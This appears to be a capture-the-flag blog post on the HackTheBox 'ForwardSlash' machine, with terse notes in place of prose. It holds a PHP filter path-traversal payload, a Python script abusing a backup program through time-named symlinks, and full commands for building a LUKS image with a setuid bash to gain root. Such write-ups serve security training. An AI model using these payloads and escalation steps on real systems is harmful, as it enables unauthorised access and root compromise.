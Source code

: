 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/1V1Xd10SEEY/0.jpg
layout: post
media_subpath: /assets/posts/2020-07-04-forwardslash-hackthebox
tags:
- hackthebox
- linux
- luks
- path traversal
title: ForwardSlash @ HackTheBox
---
```


ForwardSlash is a 40-point Linux Machine on HackTheBox. We use a path traversal vulnerability to get ssh credentials and abuse a custom backup program to read an old configuration file. For root we mount a custom LUKS image that contains a setuid program.

{% youtube 1V1Xd10SEEY %}

## Notes

**PHP Filter**

```
php://filter/convert.base64-encode/resource=dev/index.php
```

**Backup Tool**

```python
import hashlib
import os
import time

m = hashlib.md5()
m.update(str(time.strftime("%H:%M:%S")))
os.system('ln -s /home/pain/user.txt '+m.hexdigest())
os.system('/usr/bin/backup') 
```

**Luks Local**

```
dd if=/dev/zero of=/tmp/vol bs=1M count=64
sudo cryptsetup -vy luksFormat /tmp/vol
sudo cryptsetup luksOpen /tmp/vol vol
sudo mkfs.ext4 /dev/mapper/vol
sudo mount /dev/mapper/vol /mnt
scp pain@forwardslash.htb:/bin/bash  .
cp bash /mnt/bash; chmod u+s /mnt/bash
sudo umount /mnt && sudo cryptsetup luksClose vol
scp /tmp/vol pain@forwardslash.htb:/tmp/vol
```

**LUKS Remote**

```
sudo cryptsetup luksOpen /tmp/vol backup
cd
mkdir mnt
sudo /bin/mount /dev/mapper/backup ./mnt/
cd mnt; ./bash -p
```